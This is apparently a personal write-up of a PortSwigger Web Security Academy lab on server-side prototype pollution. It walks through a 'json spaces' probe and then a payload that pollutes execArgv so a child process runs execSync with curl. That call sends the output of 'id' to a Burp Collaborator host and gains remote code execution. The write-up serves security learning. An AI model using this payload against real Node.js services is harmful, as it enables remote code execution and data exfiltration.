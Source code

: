```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/server-side-prototype-pollution/lab-8/"}
---
```



---
## Objective: Get RCE & Delete `/home/carlos/morale.txt`

In this lab, we already have escalated privileges, giving us access to admin functionality. We can log in to our account with the following credentials: `wiener:peter`

Inspect the request in Repeater

![Pasted image 20250402004554.png](/img/user/Images/Pasted%20image%2020250402004554.png)

Now, we will try the `json spaces` override technique. We will attempt to add the `__proto__` as an object that has the `json spaces` property. I this case I will be using `20`

```json
"__proto__":{
	"json spaces": 20
}
```

Send the request and check the Raw Response

![Pasted image 20250402192520.png](/img/user/Images/Pasted%20image%2020250402192520.png)

 Great, it worked. Now in the 'Admin Panel' there is a button to Run maintenance jobs
 ![Pasted image 20250402202002.png](/img/user/Images/Pasted%20image%2020250402202002.png)

Checking the request it made on Burp reveals that its doing some system-level functions like DB and Filesystem cleanup. These are good candidates that spawn child processes that we can use to get RCE

![Pasted image 20250402202059.png](/img/user/Images/Pasted%20image%2020250402202059.png)

What we can do from here first pollute the `execArgv` property in the `child_process` module and call execSync to our Burp Collaborator 


```json
"__proto__":{
	"execArgv":[
		"--eval=require('child_process').execSync('curl https://xvwj31prbz2zljp52qbqjulgg7myapye.oastify.com -d $(id)')"
	]
}
```

In the command above, I use the `-d` flag to send data which is the bash command I want to execute, `id`

![Pasted image 20250402202719.png](/img/user/Images/Pasted%20image%2020250402202719.png)

Send the request and Run maintenance jobs to spawn another child process that executes our payload

Check the Collaborator tab for incoming polls

![Pasted image 20250402202934.png](/img/user/Images/Pasted%20image%2020250402202934.png)

And there it is, we received output from our payload. RCE successful! Now, just delete `/home/carlos/morale.txt` and we solved the lab!



